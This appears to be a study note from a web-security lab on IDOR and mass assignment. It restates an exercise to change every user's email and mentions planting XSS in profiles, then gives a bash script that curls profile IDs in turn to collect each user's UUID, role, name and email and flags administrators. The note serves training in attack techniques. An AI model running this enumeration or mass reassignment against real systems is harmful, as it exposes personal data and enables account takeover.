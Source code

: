With our new`role`, we may also perform mass assignments to change specific fields for all users, like placing XSS payloads in their profiles or changing their email to an email we specify.`Try to write a script that changes all users' email to an email you choose.`. You may do so by retrieving their`uuids` and then sending a`PUT` request for each with the new email.

# Question
---
![Pasted image 20250217165333.png](../../../../IMAGES/Pasted%20image%2020250217165333.png)

We can use this script to enumerate users:

```bash
#!/bin/bash

target_url="http://SERVER_IP:PORT/profile/api.php/profile"

# Color codes
GREEN='\033[0;32m'
RED='\033[0;31m'
CYAN='\033[0;36m'
NC='\033[0m' # No Color

echo -e "${CYAN}[*] Enumerating users 1-10...${NC}"
echo "----------------------------------------"

for uid in {1..10}; do
 response=$(curl -s "${target_url}/${uid}")
 
 if echo "$response" | grep -q "uuid"; then
 uuid=$(echo "$response" | jq -r '.uuid')
 role=$(echo "$response" | jq -r '.role')
 email=$(echo "$response" | jq -r '.email')
 full_name=$(echo "$response" | jq -r '.full_name')

 # Check for admin role
 if [ "$role" = "web_admin" ]; then
 echo -e "${RED}[!] ADMIN USER FOUND:${NC}"
 echo -e "${RED}UID: $uid"
 echo -e "UUID: $uuid"
 echo -e "Role: $role"
 echo -e "Name: $full_name"
 echo -e "Email: $email${NC}"
 else
 echo -e "${GREEN}[+] User $uid:${NC}"
 echo "UUID: $uuid"
 echo "Role: $role"
 echo "Name: $full_name"
 echo "Email: $email"
 fi
 echo "----------------------------------------"
 else
 echo -e "[-] User $uid not found or access denied"
 fi
done
```
